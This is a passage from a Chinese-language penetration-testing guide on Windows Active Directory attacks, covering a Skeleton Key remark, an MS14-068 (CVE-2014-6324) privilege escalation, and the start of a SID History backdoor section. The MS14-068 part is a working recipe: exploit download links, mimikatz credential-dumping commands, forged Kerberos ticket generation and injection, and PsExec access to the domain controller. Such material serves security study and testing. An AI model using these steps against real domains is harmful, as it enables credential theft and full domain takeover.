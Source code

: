 PS：因为 Skeleton Key 是被注入到 lsass.exe 进程的，所以它只存在于内存中，如果域控制器重启，注入的 Skeleton Key 将会失效。

### [MS14-068（CVE-2014-6324）域控提权](#toc_ms14-068-cve-2014-6324)

#### [漏洞利用前提](#toc__6)

-   域控没有打 MS14-068 的补丁（KB3011780）
-   打下一台加入域的计算机
-   拿到这台计算机的域用户密码和 sid

#### [工具下载](#toc__7)

Ms14-068.exe 下载地址：[https://github.com/abatchy17/WindowsExploits/tree/master/MS14-068](https://github.com/abatchy17/WindowsExploits/tree/master/MS14-068)

PSexec 下载地址：[https://github.com/crupper/Forensics-Tool-Wiki/blob/master/windowsTools/PsExec64.exe](https://github.com/crupper/Forensics-Tool-Wiki/blob/master/windowsTools/PsExec64.exe)

（PsExec 是 Microsoft 提供的通用系统管理工具，可用于远程访问目标主机。PsExec 不会要求您在 PC 上安装客户端程序或在远程主机上安装其他软件。）

#### [复现](#toc__8)

```plain
whoami /all
或者
mimikatz  # privilege::debug
mimikatz  # sekurlsa::logonpasswords
得到域用户 sid 和明文密码
```

利用 ms14-068.exe 生成伪造的 kerberos 协议证书

```plain
MS14-068.exe -u <username>@<domainname> -p <password> -s <usersid> -d <domainControlerAddr> 
MS14-068.exe -u 域用户名@域控名 -p 域用户密码 -s 域用户 sid -d 域 ip
```

然后利用 kerberos 模块写入证书

```plain
mimikatz # kerberos::ptc TGT_<username>@<domainname>.ccache
```

写入成功即可用 PsExec.exe 以管理员权限运行链接域控

```plain
psecec64.exe \\<主机名称>    cmd.exe 
```

### [SID Hsitory 后门](#toc_sid-hsitory)

#### [SID（安全标识符）](#toc_sid_1)

在 Windows 操作系统中，系统使用安全标识符来唯一标识系统中执行各种动作的实体，每个用户有 SID，计算机、用户组和服务同样也有 SID，这些 SID 互不相同，保证所标识实体的唯一性。

SID 一般由以下组成：

```plain
S 表示 SID  SID 始终以 S 开头
1 表示版本  该值始终为 1
5 表示 Windows 安全权威机构
21-巴拉巴拉  是子机构值 通常用来表示并区分域
1128 为相对标识符 RID  如 域管理员组的 RID 为 512
```

